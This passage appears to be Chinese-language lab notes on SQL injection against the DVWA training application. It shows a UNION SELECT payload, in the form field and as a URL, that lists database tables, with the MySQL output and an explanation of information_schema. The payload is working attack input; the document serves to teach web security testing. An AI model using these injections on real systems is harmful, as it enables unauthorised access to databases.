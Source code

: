 ```
ID: -1' UNION SELECT 1,concat(table_name) from information_schema.tables where table_schema=database() #
First name: 1
Surname: guestbook

ID: -1' UNION SELECT 1,concat(table_name) from information_schema.tables where table_schema=database() #
First name: 1
Surname: users
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1' UNION SELECT 1,concat(table_name) from information_schema.tables where table_schema=database() #&Submit=确定
```
mysql中的查询结果：

```

mysql> SELECT 1,concat(table_name) from information_schema.tables where table_schema=database();
+---+--------------------+
| 1 | concat(table_name) |
+---+--------------------+
| 1 | guestbook          |
| 1 | users              |
+---+--------------------+
2 rows in set (0.00 sec)

```

###table_name

table_name指的是当前数据库的表名

###information_schema库


查询看看库里有多少个表，表名等

```
select * from INFORMATION_SCHEMA.TABLES
```

`information_schema.tables`这张数据表保存了MySQL服务器所有数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。再简单点，这台MySQL服务器上，到底有哪些数据库、各个数据库有哪些表，每张表的字段类型是什么，各个数据库要什么权限才能访问，等等信息都保存在information_schema.tables表里面。

Mysql的INFORMATION_SCHEMA数据库包含了一些表和视图，提供了访问数据库元数据的方式。

元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

下面对一些重要的数据字典表做一些说明：

- SCHEMATA表：提供了关于数据库的信息。

- TABLES表：给出了关于数据库中的表的信息。

- COLUMNS表：给出了表中的列信息。
